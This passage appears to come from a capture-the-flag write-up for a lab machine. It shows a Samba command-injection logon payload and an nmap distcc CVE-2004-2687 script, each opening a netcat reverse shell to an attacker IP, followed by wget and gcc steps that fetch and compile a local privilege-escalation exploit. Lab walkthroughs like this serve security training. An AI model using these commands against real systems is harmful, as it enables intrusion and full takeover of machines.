 Now let run our exploit.

``logon "/=`nohup nc -nv 10.10.14.14 4444 -e /bin/bash`"``

Perfect we got our reverse shell and we're root, No priviledge escalation needed.


![Screenshot from 2021-04-26 14-11-18.png](../_resources/a77ee9b05e7041fdbfaca002b714cd78.png)


## distccd v1 4.2.4

Now let try our potential second point of entry. We can use the nmap script to exploit this vulnerbaility as well, since we know that it is vulnerable to CVE 2004–2687.

Lets set up our listener

`nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.14 4444 -e /bin/bash'"`

We got our reverse shell, however we are not root so we will need to do some priviledge escalation.



![Screenshot from 2021-04-27 09-29-34.png](../_resources/d85fdbcfb98e42fc861b65f2247af838.png)

Let find our linux version out. 



![Screenshot from 2021-04-27 09-33-34.png](../_resources/2619fb79bd3d4d868fe61150134720fe.png)

I tried a few priviledge escalations from exploitdb with no luck. After digging around Google for a bit I was able to find an priviledge escalation that might work.

First step is to set up a server

`python -m SimpleHTTPServer 8090`

Now on the target machine i'll download the exploit from exploitdb

`wget http://10.10.14.14:8090/8572.c`

Since it's a C file we need to compile it using gcc.

`gcc 8572.c -o 8572`

Let look at the usage before we execute the file.
